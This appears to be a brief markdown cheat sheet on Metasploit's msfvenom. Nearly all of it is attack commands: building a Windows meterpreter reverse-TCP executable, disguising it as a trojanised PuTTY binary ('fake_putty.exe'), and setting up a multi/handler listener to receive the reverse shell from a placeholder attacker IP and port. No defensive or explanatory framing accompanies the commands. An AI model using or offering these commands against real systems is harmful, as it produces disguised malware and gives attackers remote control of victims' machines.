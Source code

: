 # MSF Venom

## Commands

```sh
msfvenom -h
```

## Attack

### Windows Reverse TCP

```sh
#
msfvenom \
  -p windows/meterpreter/reverse_tcp \
    lhost=<ip> \
    lport=<port> \
  -f exe \
  > ./payload.exe

#
msfvenom \
  -p windows/meterpreter/reverse_tcp \
    lhost=<ip> \
    lport=<port> \
  -f exe \
  -x ./putty.exe \
  > ./fake_putty.exe
```

```sh
#
msfconsole

#
use exploit/multi/handler

#
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ip>
set LPORT <port>

#
exploit
```
